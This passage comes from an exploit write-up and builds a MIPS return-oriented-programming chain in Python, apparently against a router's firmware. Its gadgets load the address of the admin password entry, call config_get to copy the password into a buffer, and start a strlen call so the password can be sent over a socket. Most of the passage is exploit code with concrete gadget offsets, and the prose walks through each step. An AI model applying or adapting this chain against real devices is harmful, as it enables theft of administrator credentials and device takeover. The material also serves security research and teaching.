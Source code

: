 ```python
# Set a0 to be the id of the admin password
# 0x000153d0: lw $a0, 4($s0); lw $ra, 4($sp); addiu $v0, $zero, 2; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8; 
chain += p32(0x800089e4 + 0x7b58) # s0
chain += p32(0x11e568 + base_address)

# 0x0011e568: lw $a1, ($sp); lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10;
chain += p32(pwd_buffer)
chain += b'b' * 0x8
chain += p32(0x137960 + base_address)
```

As you can see, we have set *$a0* to contain the address of 0x1010200 (we set *$s0* to be the address of 0x1010200 - 4 earlier, so this is why 4($s0) get the correct address). We also set *$a1* to be the address of the buffer we want to store the password. 

We have also set *$s0* to contain the address of the *config_get* function + 0x7b58, this means we can send it as it no longer contains a null byte. We can use the following gadget to subtract the extra we added on:

```python
## The address of config load contains a null byte, so we will have to do some subtracting (s0 is set to address of function + 0x7b58)
# 0x00137960: addiu $v0, $s0, -0x7b58; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x15114 + base_address) # ra
```

With the correct address in *$v0*, we can now use a similar `jalr` containing gadget to call the *config_get* function - but as we are not worried about the return value, we can use the cleaner gadget that clears *$v0*:

```python
## Now call config get
# 0x00015114: jalr $v0; nop; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 0x4
chain += p32(0x19bc70 + base_address) # ra
```

### strlen

`size_t strlen(const char *str)`

With the admin password safely stored in our buffer, we can now work out how many bytes we need to send over the socket. All we need to do is move the address of our buffer into *a0*, and call *strlen*. We start by populating *$a0*:

```python
# Regain control of s0
# 0x0019bc70: lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(pwd_buffer) # s0
chain += p32(0xb018c + base_address) # ra

# Move pwd buffer address into a0
# 0x000b018c: move $a0, $s0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x57864 + base_address) # ra
```
